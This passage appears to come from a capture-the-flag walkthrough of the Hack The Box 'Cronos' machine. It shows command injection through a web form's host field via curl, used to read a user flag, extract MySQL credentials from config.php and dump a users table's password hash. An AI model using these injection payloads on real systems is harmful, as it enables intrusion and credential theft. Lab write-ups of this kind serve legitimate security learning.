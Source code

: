 ```
curl -X POST http://admin.cronos.htb/welcome.php -d "command=traceroute&host=127.0.0.1+%26+cat+/home/noulis/user.txt"

   <body>
        <h1>Net Tool v0.1</h1>
        <form method="POST" action="">
        <select name="command">
                <option value="traceroute">traceroute</option>
                <option value="ping -c 1">ping</option>
        </select>
        <input type="text" name="host" value="8.8.8.8"/>
        <input type="submit" value="Execute!"/>
        </form>
                        51d236438b333970dbba7dc3089be33b<br>
                      <p><a href = "logout.php">Sign Out</a></p>
   </body>

</html>
```

We also grab `config.php` content, and we get credentials to MySQL database:

```
..
define('DB_SERVER', 'localhost');<br>
                   define('DB_USERNAME', 'admin');<br>
                   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');<br>
                   define('DB_DATABASE', 'admin');<br>
                   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);<br>
```

We try SSH access with user noulis and that password, but it doesn't work.

Then we try to enumerate databases, and we found "admin" DB:

```
curl -X POST http://admin.cronos.htb/welcome.php -d "command=traceroute&host=127.0.0.1+%26+mysql+-uadmin+-pkEjdbRigfBHUREiNSDs+-e+%22show+databases%22"

..
..
                      Database<br>
                information_schema<br>
                admin<br>
```

With same technique we discover `users` table, and we obtain another credential:

```
curl -X POST http://admin.cronos.htb/welcome.php -d "command=traceroute&host=127.0.0.1+%26+mysql+-uadmin+-pkEjdbRigfBHUREiNSDs+admin+-e+%22select+%2A+from+users%3B%22"

..
..

  id      username        password<br>
                1       admin   4f5fffa7b2340178a716e3832451e058<br>
```
